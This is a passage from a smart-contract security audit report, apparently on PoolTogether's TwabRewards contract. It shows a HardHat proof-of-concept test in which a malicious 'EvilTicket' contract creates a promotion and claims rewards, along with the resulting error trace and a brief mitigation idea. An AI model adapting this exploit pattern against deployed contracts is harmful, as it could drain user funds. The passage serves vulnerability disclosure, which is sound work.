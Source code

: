 The test for HardHat is:
```js
describe('exploit()', async () => {
    it('this shouldnt happen', async () => {
        const promotionIdOne = 1;
        const promotionIdTwo = 2;

        await expect(createPromotion(ticket.address))
            .to.emit(twabRewards, 'PromotionCreated')
            .withArgs(promotionIdOne);
        
        let evilTicketFactory = await getContractFactory('EvilTicket');
        let evilTicket = await evilTicketFactory.deploy('EvilTicket', 'TICK', 18, wallet1.address);
        let createPromotionTimestamp = (await ethers.provider.getBlock('latest')).timestamp;
        await expect(twabRewards.connect(wallet2).createPromotion(
            evilTicket.address,
            rewardToken.address,
            tokensPerEpoch,
            createPromotionTimestamp,
            1,//epochDuration,
            0,//epochsNumber,
        )).to.emit(twabRewards, 'PromotionCreated')
            .withArgs(promotionIdTwo);

        await increaseTime(100);
        const epochIds = ['100'];
        await twabRewards.connect(wallet2).claimRewards(wallet2.address, promotionIdTwo, epochIds);
    });
});
```
It results in the following error:
```
1) TwabRewards
    exploit()
        this shouldnt happen:
    Error: VM Exception while processing transaction: reverted with reason string 'ERC20: transfer amount exceeds balance'
    at TwabRewardsHarness.verifyCallResult (@openzeppelin/contracts/utils/Address.sol:209)
    at TwabRewardsHarness.functionCallWithValue (@openzeppelin/contracts/utils/Address.sol:132)
    at TwabRewardsHarness.functionCall (@openzeppelin/contracts/utils/Address.sol:94)
    at TwabRewardsHarness._callOptionalReturn (@openzeppelin/contracts/token/ERC20/utils/SafeERC20.sol:92)
    at TwabRewardsHarness.safeTransfer (@openzeppelin/contracts/token/ERC20/utils/SafeERC20.sol:25)
    at TwabRewardsHarness.claimRewards (contracts/TwabRewards.sol:186)
```
#### Recommended Mitigation Steps

Maybe add a whitelist of trusted tickets?

**[PierrickGT (PoolTogether) confirmed](https://github.com/code-423n4/2021-12-pooltogether-findings/issues/1)** 

## [[H-06] Rewards can be claimed multiple times](https://github.com/code-423n4/2021-12-pooltogether-findings/issues/3)
_Submitted by johnnycash, also found by certora, cmichel, gpersoon, gzeon, harleythedog, kemmio, kenzo, sirhashalot, and 0x421f_
